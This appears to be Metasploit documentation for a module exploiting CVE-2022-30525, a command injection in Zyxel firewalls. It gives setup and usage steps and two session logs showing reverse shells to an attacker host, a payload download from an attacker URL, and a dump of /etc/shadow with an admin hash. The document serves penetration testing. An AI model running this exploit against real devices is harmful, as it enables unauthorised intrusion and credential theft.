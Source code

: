 ## Vulnerable Application

### Description

This module exploits CVE-2022-30525, an unauthenticated remote
command injection vulnerability affecting Zyxel firewalls with zero
touch provisioning (ZTP) support. By sending a malicious `setWanPortSt`
command containing an `mtu` field with a crafted OS command to the
`/ztp/cgi-bin/handler` page, an attacker can gain remote command execution
as the `nobody` user.

Affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700 using firmware 5.21 and below
* USG20-VPN and USG20W-VPN using firmware 5.21 and below
* ATP 100, 200, 500, 700, 800 using firmware 5.21 and below

### Setup

The vulnerable system is a hardware firewall/vpn that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. Once the
device has been acquired, you'll need to accomplish the following:

* Once powered on, register the device with Zyxel. You cannot do anything
with the device until this is accomplished. Fortunately, the web interface
will force you to complete this process. You'll need to create an account at
https://portal.myzyxel.com and the firewall will need internet connectivity
to complete the process.

* Once the device is up to date, you'll need to downgrade the firmware. From
portal.myzyxel.com you can download old firmware from:

Devices Management -> Firmware Download

From there you can select model and version to download. The last vulnerable
version from the affected systems is 5.21 Patch 1.

* Once you are using the vulnerable version, there is no special configuration
you need to exploit from the LAN. If you want to exploit from the WAN, you'll
need to enable "HTTP" and/or "HTTPS" through the firewall. From the web interface
do:

Configuration -> Objects -> Service -> Service Group -> Default_Allow_WAN_To_ZyWALL

And move "HTTP" and/or "HTTPS" from the left column to the right. After applying
the firewall should pass HTTP/HTTPS through the firewall to the web interface.

* That's it. You are good to go.

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/zyxel_ztp_rce`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse sh shell as nobody

```
msf > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48153 ) at 2022-05-09 14:06:47 -0700
[+] Exploit successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /etc/shadow
root:***:12396:0:99999:7:::
bin:***:12396:0:99999:7:::
daemon:***:12396:0:99999:7:::
adm:***:12396:0:99999:7:::
lp:***:12396:0:99999:7:::
sync:***:12396:0:99999:7:::
shutdown:***:12396:0:99999:7:::
halt:***:12396:0:99999:7:::
mail:***:12396:0:99999:7:::
news:***:12396:0:99999:7:::
uucp:***:12396:0:99999:7:::
operator:***:12396:0:99999:7:::
games:***:12396:0:99999:7:::
ftp:***:12396:0:99999:7:::
sshd:***:12396:0:99999:7:::
nobody:***:12396:0:99999:7:::
debug:***:12396:0:99999:7:::
#deadbeaf  Don't remove this line
admin:$5$52TVVua8$64kGlcP7$tNKPUArLMHZtmYy84GwUviNYNwBmDkLQ+cKkP9ToPRZqbAA3tgyfRd58rutqhxl36xVWYYRs5GhzX9Hd3ID9PvH5/F7RH0jPRLlug3+TecNkofrbDf3XOan3L8ZeChhzudZgUkP9A4sXfm6dEXguZ2+nLj98gyh7W8dl2/g+h3giNWW9Qsp1JdvaC3wIV53nlZ4p8JEPbswfsJ+KNEsb8AHajPfE+MVT4iTT9OhxPQnwMYaVhyRfauJeUrLtDHDzZq+bvHfmTp4NxUWOjwbXlBa7D6dRD21U3KW9btQM3SMDMSiwZGX1bo5Bu09lWiyzEPPIsy3n7Jsw+W818cZQm7I4b/BMn5tmdkafJz3uCw4$:19121:0:99999::::
ldap-users:***:19121:0:99999::::
radius-users:***:19121:0:99999::::
ad-users:***:19121:0:99999::::
ua-users:***:19121:0:99999::::
cloud-users:***:19121:0:99999::::
```

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse Meterpreter shell as nobody

```
msf > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf exploit(linux/http/zyxel_ztp_rce) > set target 1
target => 1
msf exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/vFiLDBVYvqzd
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Client 10.0.0.14 (curl/7.70.0) requested /vFiLDBVYvqzd
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[*] Meterpreter session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48159 ) at 2022-05-09 14:11:29 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > shell
Process 25619 created.
Channel 1 created.
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
cat /proc/cpuinfo
system type		: ROUTER7000_REF (CN7020p1.2-1200-AAP)
machine			: Unknown
processor		: 0
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 0
VCED exceptions		: not available
VCEI exceptions		: not available

processor		: 1
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 1
VCED exceptions		: not available
VCEI exceptions		: not available
```
